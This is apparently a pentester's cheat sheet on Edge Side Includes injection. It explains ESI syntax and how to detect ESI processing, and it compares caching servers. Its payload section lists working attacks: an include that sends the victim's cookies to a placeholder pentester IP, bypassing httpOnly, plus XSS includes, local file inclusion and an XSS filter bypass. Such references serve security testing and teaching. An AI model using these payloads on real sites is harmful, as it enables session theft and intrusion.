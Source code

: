 
# ESI Features & Syntax


## -Variables

### syntax 
```html
<esi:vars>$(VARIABLE_NAME)</esi:vars>
```

$(HTTP_USER_AGENT) → Mozilla/5.0 (X11;[…]
$(QUERY_STRING) → city=Montreal&format=C
$(HTTP_COOKIE) → _ga=[…]&__utma=[…]

### example  
```html
<esi:vars>$(HTTP_COOKIE{PHPSESSID})</esi:vars>
```


## -Include

### syntax 
```html
<esi:include src="/path/to/file" />
```

### example  
##### //esi/page-1.html:
```html
<html>
<p>This is page 1!</p>
<esi:include src="//api/page-2.html" />
</html>
```
##### //api/page-2.html:
```
<p>This is page 2!</p>
```


## -Assign
### syntax
```html
<esi:assign name="var1" value="value"/>
```



# ESI payloads

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>

//xss bypass
x=<esi:assign name="var1" value="'cript'"/>
<s  <esi:vars name="$(var1)"/>  >
alert(/Chrome%20XSS%20filter%20bypass/);
</s <esi:vars name="$(var1)"/>  >

```



# Detection 

- **inspecting response headers in search for Surrogate-Control: content="ESI/1.0"**
- **we usually need to use a blind attack approach to detect if ESI is in use or not.**
- **Specifically, we can introduce ESI tags to HTTP requests to see if any intermediary proxy is parsing the request and if ESI Injection is possible.**
```html
FOO<!--esi -->BAR → FOOBAR ✅
FOO<!--foo -->BAR → FOO<!--foo -->BAR ❌
```


# ESI-capable software differences

**Includes**: Supports the <esi:includes> directive
**Vars**: Supports the <esi:vars> directive. Useful for bypassing XSS Filters
**Cookie**: Document cookies are accessible to the ESI engine
**Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
**Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

| Software                        | Includes | Vars | Cookies | Upstream Headers Required | Host Whitelist |
|---------------------------------|----------|------|---------|--------------------------|----------------|
| Squid3                          | Yes      | Yes  | Yes     | Yes                      | No             |
| VarnishCache                    | Yes      | No   | No      | Yes                      | Yes            |
| Fastly                          | Yes      | No   | No      | No                       | Yes            |
| Akamai ESI Test Server (ETS)    | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS esi                      | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS nodesi                   | Yes      | No   | No      | No                       | Optional       |
